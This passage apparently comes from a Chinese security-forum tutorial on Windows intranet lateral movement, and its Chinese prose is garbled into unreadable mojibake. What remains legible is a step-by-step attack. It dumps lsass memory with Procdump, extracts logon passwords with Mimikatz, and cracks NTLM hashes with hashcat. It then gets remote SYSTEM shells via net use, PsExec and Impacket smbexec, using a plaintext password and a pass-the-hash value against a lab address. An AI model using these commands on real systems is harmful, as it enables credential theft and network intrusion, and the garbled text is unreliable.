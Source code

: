 å¨windows server 2012ä»¥ä¸ççæ¬é»è®¤å ³é­wdigetï¼æ»å»è æ æ³å¨å
å­ä¸­è·åææå¯ç ã  
å¨windows server 2012ä»¥ä¸ççæ¬å¦æå®è£ äºKB2871997è¡¥ä¸ï¼ä¹æ
æ³è·åææå¯ç ã

##
[](https://bbs.pediy.com/thread-268289.htm#3.1%E8%8E%B7%E5%8F%96%E7%B3%BB%E7%BB%9Fhash)3.1è·åç³»ç»hash

Procdump.exe -accepteula -ma lsass.exe lsass.dmp(éè¦ç®¡çåæé)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_S2VPY86S5B8KW7W.png)  
å©ç¨Mimikatzmç¸å ³å½ä»¤è·ådmpä¸­çhashï¼  
Privilege::debug  
Sekurlsa::minidump lsass.dmp  
Sekurlsa::logonPasswords full  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_G5BB6569HJ4AAV8.png)  
å¯ä»¥éè¿hashcatçç ´hashå¼ï¼è·å¾å¯¹åºçææå¯ç ï¼  
Hashcat -a 0 -m 1000 hashfile passfile

##
[](https://bbs.pediy.com/thread-268289.htm#3.2%E9%80%9A%E8%BF%87%E6%98%8E%E6%96%87%E6%88%96hash%E5%88%A9%E7%94%A8smb%E6%9C%8D%E5%8A%A1%E8%BF%9B%E8%A1%8C%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)3.2éè¿æææhashå©ç¨SMBæå¡è¿è¡æ¨ªåç§»å¨

å®æ¹Psexecç¬¬ä¸ç§å©ç¨æ¹æ³ï¼å¯ä»¥å
æipcé¾æ¥ï¼åç¨psexecè¿è¡ç¸åºçç¨åºï¼  
Net use \192.168.202.148\ipc$ zxcvbnm123 /user:test\Administrator  
Psexec \192.168.202.148 -accepteula -s cmd  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_47G2K567FFVFDHS.png)  
å®æ¹Psexecç¬¬äºç§å©ç¨æ¹æ³ï¼ä¸ç¨å»ºç«ipcè¿æ¥ï¼ç´æ¥ä½¿ç¨å¯ç
æhashè¿è¡ä¼ é  
Psexec \192.168.202.148 -u Administrator -p zxcvbnm123 -s cmd  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_PUTCKWD8XHJ79QN.png)  
PsExec -hashes :fac5d668099409cb6fa223a32ea493b6
test.com/Administrator@192.168.202.148 "whoami" (å®æ¹æ§è¡ä¸äº)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_8PQFGJR5NG6S9ST.png)



ä½¿ç¨ç¬¬ä¸æ¹Impacketå·¥å ·å
ä¸­çsmbexecåpsexecï¼ä½¿ç¨æ¹æ³åå®æ¹ä¸è´ï¼  
ä½¿ç¨Impacketç¬¬ä¸æ¹PsExecï¼å½ä»¤ä¸å®æ¹çä¸è´ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_QSP37S3AR7TUPXH.png)  
ä½¿ç¨Impacketç¬¬ä¸æ¹Smbexecï¼  
Smbexec test/Administrator:zxcvbnm123@192.168.202.148  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_ABPK7AT2MU8XGDR.png)  
Smbexec -hashes :fac5d668099409cb6fa223a32ea493b6
test/Administrator@192.168.202.148  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_TGTZ96NTS6U8EYB.png)
